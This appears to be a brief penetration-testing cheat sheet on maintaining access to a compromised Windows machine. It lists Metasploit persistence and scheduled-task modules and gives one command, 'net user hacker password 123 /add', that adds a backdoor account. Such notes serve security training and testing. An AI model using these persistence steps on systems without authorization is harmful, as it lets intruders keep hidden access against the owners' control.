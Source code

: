 # II. Maintaining Access Overview

### Persistence Scripts

- run persistence -h
- exploit/windows/local/persistence
- exploit/windows/local/registry_persistence

### Scheduled Tasks

- run scheduleme
- run schtaskabuse

### Add a user

- net user hacker password 123 /add

**NOTE: These are all metasploit modules.**